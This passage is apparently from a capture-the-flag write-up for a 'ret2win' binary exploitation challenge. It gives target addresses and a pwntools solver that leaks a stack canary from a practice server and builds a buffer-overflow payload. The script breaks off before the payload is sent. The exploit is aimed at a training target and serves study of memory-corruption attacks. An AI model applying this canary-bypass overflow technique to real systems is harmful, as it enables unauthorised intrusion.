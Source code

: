 ![](ret2win3disasswin.png)
win addr on `0x401236` and ret addr on `0x00000000004012e0`, so this is the solver
#### Solver
```py
from pwn import *

host = "playground.tcp1p.team"
port = 19002

io = remote(host, port)
io.recvuntil("Here's a gift for you: ")
canary = int(io.recvline().strip(), 16) 
log.info(f"Leaked Canary: {hex(canary)}")

win_addr = 0x401236
ret_addr = 0x00000000004012e0  

offset = 104

payload = b"A" * offset  
payload += p64(canary) 
payload += b"B" * 8 
payload += p64(ret_addr)
```